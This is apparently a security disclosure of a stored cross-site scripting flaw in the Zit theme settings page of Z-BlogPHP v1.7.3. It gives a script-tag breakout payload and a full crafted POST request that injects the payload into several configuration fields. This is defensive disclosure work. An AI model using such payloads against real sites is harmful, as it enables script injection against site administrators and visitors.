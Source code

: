 # Summary
A cross-site scripting (XSS) vulnerability in the Backend `Theme Management module` of Z-BlogPHP v1.7.3 allows attackers to execute arbitrary web scripts or HTML via a crafted payload.

There is a stored XSS vulnerability in the **Zit** theme configuration of zblogphp v1.7.3.

# Details
Source code can be downloaded from: https://github.com/zblogcn/zblogphp/releases/download/v1.7.3-3230/zblogphp.zip .

Select and enable this theme:
![image](https://github.com/user-attachments/assets/beb61e13-fb8f-484b-a0f1-8045df1d33d5)

Audit the configuration code of this theme
`zb_users\theme\Zit\main.php`

![image](https://github.com/user-attachments/assets/450b3569-07b8-4c85-8307-51f0450d7b0f)

The HTML tag elements in main.php are not filtered and have XSS vulnerabilities.

So we construct the corresponding payload according to the HTML format:
```html
";><ScRiPt>alert(7)</ScRiPt>
```

Next, we use burpsuite to intercept the HTTP request package saved by the normal configuration options, and then modify the value of the parameter to the payload we constructed:
![image](https://github.com/user-attachments/assets/fc8a8b44-e476-4b96-a1eb-4718f810e24f)
![image](https://github.com/user-attachments/assets/a098fd16-fff7-42b1-86b7-d9f15f5f9eda)

Then we visit the configuration interface `main.php` again, and we can find that the stored XSS is triggered:
![image](https://github.com/user-attachments/assets/f34be924-5acf-46a5-8df6-6fd3c5191ea9)

At this point, the payload we constructed is spliced ​​on the website as follows:
![image](https://github.com/user-attachments/assets/e3c1d84e-9cbe-420a-b4ee-26bbe66bb08b)


# PoC
```html
";><ScRiPt>alert(7)</ScRiPt>
```

```
POST /zb_users/theme/zit/main.php HTTP/1.1
xxx

csrfToken=716554d3c6a82692767bb6598496e49c&Logo=";><ScRiPt>alert(7)</ScRiPt>&Backdrop=&Cover=http%3A%2F%2Fzblog%3A81%2Fzb_users%2Ftheme%2FZit%2Fstyle%2Fbg.jpg&Hue=";><ScRiPt>alert(7)</ScRiPt>&MenuAnimate=1&DefaultAdmin=0&StaticName=1&ListTags=0&ListAlbum=0&HideIntro=0&MobileSide=";><ScRiPt>alert(7)</ScRiPt>&SideMods=&Motto=Nice+to+meet+you%2C+too%21&MottoUrl=&MottoSize=&CmtIds=&GbookID=2&RandLog=0&HideRand=0&Description=&Keywords=&RelatedTitle=%E5%B0%91%E9%95%BF%E5%92%B8%E9%9B%86&CommentTitle=%E7%BE%A4%E8%B4%A4%E6%AF%95%E8%87%B3
```
![image](https://github.com/user-attachments/assets/f34be924-5acf-46a5-8df6-6fd3c5191ea9)
![image](https://github.com/user-attachments/assets/e3c1d84e-9cbe-420a-b4ee-26bbe66bb08b)
